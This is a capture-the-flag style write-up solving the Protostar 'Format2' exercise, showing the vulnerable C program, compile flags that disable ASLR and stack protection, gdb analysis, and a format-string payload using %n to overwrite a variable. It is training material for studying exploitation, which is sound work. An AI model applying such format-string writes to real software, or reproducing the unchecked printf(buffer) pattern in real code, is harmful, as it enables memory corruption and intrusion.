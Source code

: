 ## Protostar-Format2 Solution

### 1. Introduction

This is a poc solution for the "Format2" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20170419023621/https://exploit-exercises.com/protostar/format2/](https://web.archive.org/web/20170419023621/https://exploit-exercises.com/protostar/format2/) 
 
**Hints:**
* This level moves on from format1 and shows how specific values can be written in memory.

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o format_2 format_2.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb-peda

Similar to the previous one, we just need to write a custom value onto the target value address.

```nasm
gdb-peda$ disas vuln
Dump of assembler code for function vuln:
   0x0804849d <+0>:	push   ebp
   0x0804849e <+1>:	mov    ebp,esp
   0x080484a0 <+3>:	sub    esp,0x218
   0x080484a6 <+9>:	mov    eax,ds:0x804a028
   0x080484ab <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484af <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484b7 <+26>:	lea    eax,[ebp-0x208]
   0x080484bd <+32>:	mov    DWORD PTR [esp],eax
   0x080484c0 <+35>:	call   0x8048360 <fgets@plt>
   0x080484c5 <+40>:	lea    eax,[ebp-0x208]
   0x080484cb <+46>:	mov    DWORD PTR [esp],eax
   0x080484ce <+49>:	call   0x8048350 <printf@plt>
   0x080484d3 <+54>:	mov    eax,ds:0x804a030
   0x080484d8 <+59>:	cmp    eax,0x40
   0x080484db <+62>:	jne    0x80484eb <vuln+78>
   0x080484dd <+64>:	mov    DWORD PTR [esp],0x80485a0
   0x080484e4 <+71>:	call   0x8048370 <puts@plt>
   0x080484e9 <+76>:	jmp    0x8048500 <vuln+99>
   0x080484eb <+78>:	mov    eax,ds:0x804a030
   0x080484f0 <+83>:	mov    DWORD PTR [esp+0x4],eax
   0x080484f4 <+87>:	mov    DWORD PTR [esp],0x80485c0
   0x080484fb <+94>:	call   0x8048350 <printf@plt>
   0x08048500 <+99>:	leave  
   0x08048501 <+100>:	ret    
End of assembler dump.
```

```
$ objdump -t format_2 | grep target
0804a030 g     O .bss	00000004              target
```

So, target is on **0804a030**. We need to overwrite this variable with 64 since the following one compares if value is 0x40 or not.

```nasm
gdb-peda$ disas vuln
...TRIM...
0x080484d3 <+54>:	mov    eax,ds:0x804a030
0x080484d8 <+59>:	cmp    eax,0x40
...TRIM...

gdb-peda$ x/wx 0x804a030
0x804a030 <target>:

gdb-peda$ x/wx &target
0x804a030 <target>:	

gdb-peda$ p/x 64 
$1 = 0x40
```

#### 2.2 Quick Solution

So our payload will start with the address of target value in little-endian format, then we need to pop stack for 60 bytes as well (4+60 = 64).
Then we need to use %n to write on the address.

```nasm
gdb-peda$ b * 0x080484d3
gdb-peda$ r <<< $(python -c 'print "\x30\xa0\x04\x08%60x%4$n"')

gdb-peda$ disas
...TRIM...
=> 0x080484d3 <+54>:	mov    eax,ds:0x804a030
...TRIM...

gdb-peda$ i r eax
eax            0x41	0x41

gdb-peda$ c
Continuing.
you have modified the target :)
[Inferior 1 (process 3681) exited with code 040]
Warning: not running
```

#### 2.3 Final PoC

```
$ echo -ne $(python -c 'print "\x30\xa0\x04\x08%60x%4$n"') | ./format_2
0�                                                         200you have modified the target :)
```
